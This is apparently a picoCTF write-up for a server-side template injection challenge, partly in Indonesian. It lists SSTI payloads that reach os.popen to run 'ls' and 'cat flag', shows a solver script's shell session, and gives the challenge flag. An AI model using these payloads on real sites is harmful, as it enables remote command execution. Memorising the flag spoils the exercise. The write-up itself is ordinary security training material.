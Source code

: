 # soal
I made a cool website where you can announce whatever you want! Try it out!

## launch istance
Additional details will be available after launching your challenge instance.
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

# hint
- Server Side Template Injection

# solve
- saya melihat bahwa ini adalah web SSTI
- saya pertama mencoba payload simple dengan payload sederhana SSTI ```{{ 7+7 }}```
  ![alt text](images/E_SSTI1/image.png)
  ![alt text](images/E_SSTI1/image-1.png)
- setelah itu saya mencoba payload dari sini
  - [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
  - [me2nuk.com/SSTI-Vulnerability/](https://me2nuk.com/SSTI-Vulnerability/)
  ```bash
  {{config}}

  {{self}} 
  {{_self.env}}
  {{self.env}}
  {{self._templateReference}}

  # 1
  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}

  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

  # 2
  {{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
  ```

## python
- download [E_SSTI1.py](https://raw.githubusercontent.com/ariafatah0711/ctf_aria/refs/heads/main/picoCTF/web_exploit/solve/E_SSTI1.py) 
```bash
python3 E_SSTI1.py
Shell> ls
__pycache__
app.py
flag
requirements.txt
Shell> cat flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
Shell> ^C
```

# flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
